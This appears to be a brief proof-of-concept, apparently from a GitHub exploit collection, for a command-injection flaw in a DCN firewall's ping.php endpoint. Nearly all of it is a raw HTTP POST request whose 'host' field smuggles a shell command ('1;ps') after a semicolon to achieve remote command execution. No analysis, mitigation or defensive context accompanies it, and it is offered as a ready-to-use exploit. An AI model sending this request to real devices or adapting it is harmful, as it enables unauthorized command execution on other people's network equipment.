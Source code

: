 # DCN_ping_rce
```
POST /function/system/tool/ping.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Connection: close
Cookie: cookie
Upgrade-Insecure-Requests: 1
Priority: u=4

dcn_test_a_967=21&dcn_test_b_967=122&dcn_test_c_967=111&dcn_test_d=_967&doing=ping&host=1;ps&proto=&count=1
```
from: https://github.com/wy876/POC/blob/main/DCN/DCN%E9%98%B2%E7%81%AB%E5%A2%99ping.php%E5%AD%98%E5%9C%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
